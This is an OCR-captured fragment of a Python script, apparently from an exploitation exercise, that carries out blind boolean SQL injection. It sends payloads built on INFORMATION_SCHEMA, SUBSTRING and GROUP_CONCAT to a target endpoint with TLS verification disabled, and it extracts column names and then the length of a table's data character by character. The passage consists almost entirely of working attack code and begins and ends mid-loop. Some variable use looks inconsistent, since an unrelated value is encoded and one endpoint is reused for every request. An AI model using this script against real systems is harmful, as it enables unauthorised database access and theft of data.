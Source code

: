 ```python
        encoded_data = base64.b64encode(dataClear.encode()).decode()
        data = {
            "data": encoded_data
        }
        json_data = json.dumps(data)

        response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
        response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
        response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
        response_data = json.loads(response_result.text)
        print(payload)
        if response_data == "EMPTY":
            break
        lenght_colums+=1
    print(lenght_colums)
    #GET COLUMNS 
    columns_string=""
    for i in range(1,lenght_colums+1):
        for char in list_wordlist:
            payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT(COLUMN_NAME)) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '{table_child}'), {i}, 1) = '{char}') ; ##"
            encoded_data = base64.b64encode(dataClear.encode()).decode()
            data = {
                "data": encoded_data
            }
            json_data = json.dumps(data)

            response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
            response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
            response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
            response_data = json.loads(response_result.text)
            print(payload)
            if response_data == "EMPTY":
                columns_string+=char
                break
    columns = columns_string.split(",")
    print(f"columns is {columns}")
    #GET LENGHT CONTENT
    lenght_content_table=0
    while True:
        payload = f"users 123' OR (SELECT LENGTH(GROUP_CONCAT({columns[0]})) FROM {table_child}) = {lenght_content_table} ; ##"
        encoded_data = base64.b64encode(dataClear.encode()).decode()
        data = {
            "data": encoded_data
        }
        json_data = json.dumps(data)

        response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
        response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
        response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
        response_data = json.loads(response_result.text)
        print(payload)
        if response_data == "EMPTY":
```